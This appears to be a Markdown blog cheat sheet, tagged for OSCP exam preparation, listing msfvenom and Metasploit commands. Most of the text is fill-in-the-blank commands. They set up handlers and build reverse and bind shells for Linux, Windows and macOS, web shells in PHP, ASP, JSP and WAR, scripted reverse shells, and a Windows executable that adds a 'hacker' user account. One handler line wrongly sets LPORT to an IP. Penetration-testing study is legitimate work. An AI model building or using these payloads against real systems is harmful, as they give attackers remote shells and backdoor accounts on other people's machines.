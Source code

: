 ```yaml
---
title:  "Msfvenom Cheat Sheet"
header: "Msfvenom Cheat Sheet"
categories: 
  - Cheatsheet
  - OSCP
tags:
  - Msfvenom
---
```


Msfvenom (replaced the former msfpayload and msfencode tools) and is a tool that can be used to generate payloads as standaline files and encode them if needed. Everybody likes shells, right?

# Usage  
***

![Msfvenom Usage](/assets/images/msfvenom.JPG)

# Basic Commands  
***
#### List available payloads  
`msfvenom -l`

#### Encoding Payloads  
`msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>`

# Handler Setup  
***
#### Meterpreter  
`msfconsole -q`  
`use exploit/multi/handler`  
`set PAYLOAD <PAYLOAD>`  
`set LHOST <IP>`  
`set LPORT <IP>`  
`set ExitOnSession false`  
`exploit -j -z`  

#### Netcat  
`nc -nlvp <PORT>`

# Linux  
***
#### Reverse Shell  
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf`

#### Bind Shell  
`msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<IP> LPORT=<PORT> -f elf > shell.elf`

# Windows  
***
#### Reverse Shell  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe`

#### Bind Shell  
`msfvenom -p windows/meterpreter/bind_tcp RHOST= <IP> LPORT=<PORT> -f exe > shell.exe`

#### CMD Shell  
`msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe`

#### User Creation  
`msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe`

# Mac  
***
#### Reverse Shell  
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f macho > shell.macho`

#### Bind Shell  
`msfvenom -p osx/x86/shell_bind_tcp RHOST=<IP> LPORT=<PORT> -f macho > shell.macho`

# Web Payloads  
***
#### PHP  
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php`  
`cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

#### ASP  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp`

#### JSP  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp`

#### WAR  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war`

# Scripting Payloads  
***
#### Python  
`msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > shell.py`

#### Bash  
`msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > shell.sh`

#### Perl  
`msfvenom -p cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw > shell.pl`
